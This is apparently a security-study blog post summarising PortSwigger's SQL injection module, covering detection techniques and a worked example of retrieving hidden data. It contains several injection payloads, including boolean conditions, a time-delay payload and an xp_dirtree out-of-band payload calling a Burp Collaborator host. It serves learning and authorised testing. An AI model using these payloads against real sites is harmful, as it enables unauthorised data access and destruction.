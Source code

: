 ```yaml
---
layout: post
title: WA series - SQLi
date: 2023-11-18 19:05 -0500
tags: [websec,burpsuite,sqli]
categories: [Web Security]
img_path: 
author: Snabith
---
```


- Portswigger's SQLi module: [SQLi](https://portswigger.net/web-security/sql-injection)
- Lab scripts for Blind SQLi: [SQLi scripts](https://github.com/snabith/burpsuite-prep/tree/main/SQLi)
- Jumpto: [Labs](/posts/wa-sqli#sqli-labs)

# Concepts
## SQLi
Access, modify, or delete SQL data using queries. This can be escalated to compromise the back-end server or perform a DOS attack. 
Most SQLi vulnerabilities are blind SQLi. 

### Detection
- Use Burp Suite's web vulnerability scanner.
- Submit a single quote `'` and look for errors.
- Submit SQL queries, and check for the differences.
- Submit Boolean conditions `OR 1=1` and `OR 1=2`.
- Submit payloads designed to trigger time delays. `'; waitfor delay ('0:0:20')--`
- Submit [Out-of-Band Application Security Testing (OAST) Software - PortSwigger](https://portswigger.net/burp/application-security-testing/oast) payloads designed to trigger an out-of-band network interaction, and monitor for any resulting interactions. `exec master.xp_dirtree '//str.burpcollaborator.net/a'`

## SQL injection examples
1. **Retrieving hidden data**: 
	```
	https://insecure-website.com/products?category=Gifts
	internal sql query:
	SELECT * FROM products WHERE category = 'Gifts' AND released = 1

	Malicious Request:
	https://insecure-website.com/products?category=Gifts'--
	Result:
	SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
	```

	> Take care when injecting the condition `OR 1=1` into a SQL query. Although this may be harmless in the initial context you're injecting into, it's common for applications to use data from a single request in multiple different queries. If your condition reaches an `UPDATE` or `DELETE` statement, for example, this can result in an accidental loss of data. (https://portswigger.net/)
	{: .prompt-warning }
